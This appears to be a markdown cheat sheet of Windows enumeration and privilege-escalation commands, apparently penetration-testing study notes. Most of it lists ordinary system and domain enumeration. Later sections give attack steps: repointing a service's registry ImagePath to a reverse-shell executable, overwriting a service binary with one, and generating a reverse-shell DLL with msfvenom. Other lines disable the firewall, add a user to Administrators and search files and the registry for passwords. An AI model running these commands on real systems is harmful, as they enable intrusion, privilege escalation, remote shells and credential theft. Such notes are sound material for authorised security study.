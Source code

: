 # Useful Windows Enumeration Commands
## Users, Groups, Networking
- `echo %USERNAME%`
- list local admins
    - `net localgroup "Administrators"`
- add a user to the administrators' group
    - `net localgroup Administrators <username> /add`
- ARP table
    - `arp -a`
- Routing table
    - route print`
- `ipconfig /all`
- listening ports
    - `netstat -an | findstr LISTENING`
- PSA: `NT AUTHORITY\INTERACTIVE` is a psuedo-group for all user that can log on to the system locally

##  OS/Arch
- Get OS version
    - `ver`

## Domain commands
- `net user /domain`
- `net group /domain`
- list shares
    - `net share`
- list Password Policy
    - `net accounts /domain`

## Processes/Applications
- list remote processes/services
    - `tasklist /svc`
## Enumerating files & directories
- search files for passwords
    - `findstr /si password *.txt | *.xml | *.xls`
- tree of C drive
    - `tree /F /A c:\ > tree.txt`
- search for all PDFs
    - `dir /a /s /b c:\*.pdf*`
- use accesschk to enumerate permissions of a file/dir
    -  `.\accesschk.exe /accepteula -uwdq "C:\Program Files\ Unquoted Path Service\"`

# Services
- show services 
    - `sc query state=all`
- query the configuration of a service
    - `sc qc <service-name>`
- query the current status of a service
    - `sc query <service-name>`
- modify the config option of a service
    - `sc config <service-name> <option>= <value>`
- start/stop a service
    - `net start/stop <service-name>`
- use accesschk to check user permissions on a service
    - `.\accesschk.exe /accepteula -uwcqv <user> <service-name>`
        - look for `SERVICE_CHANGE_CONFIG` and `SERVICE_START/SERVICE_STOP`

# Registry
- check a registry entry's ACL using powershell
    - `Get-Acl HKLM:\System\CurrentControlSet\Services\{service} | Format-List`
- check a registry entry's access using accesschk
    - `.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\{service}` 
        - `KEY_ALL_ACCESS` means full access
- check current values in registry entry
    - `reg query HKLM\SYSTEM\CurrentControlSet\services\{service}`
    - ObjectName will tell you what privs the service runs as
- change a registry config to point to a reverse shell executable
    - `reg add HKLM\SYSTEM\CurrentControlSet\services\{service} /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f` 
    - flags/values may differ, consult [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-add) for specific cases
- search registry for a password
    - `reg query HKLM /f password /t REG_SZ /s`

# Other
- disable firewall
    - `netsh advfirewall set currentprofile state off`
    - `netsh advfirewall set allprofiles state off`
- DNS zone transfer
    - `nslookup, set type=any, ls -d domain > results.txt, exit`
- overwrite a service executable with a reverse shell
    - `copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" `
- create a reverse shell DLL 
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f dll -o hijackme.dll`
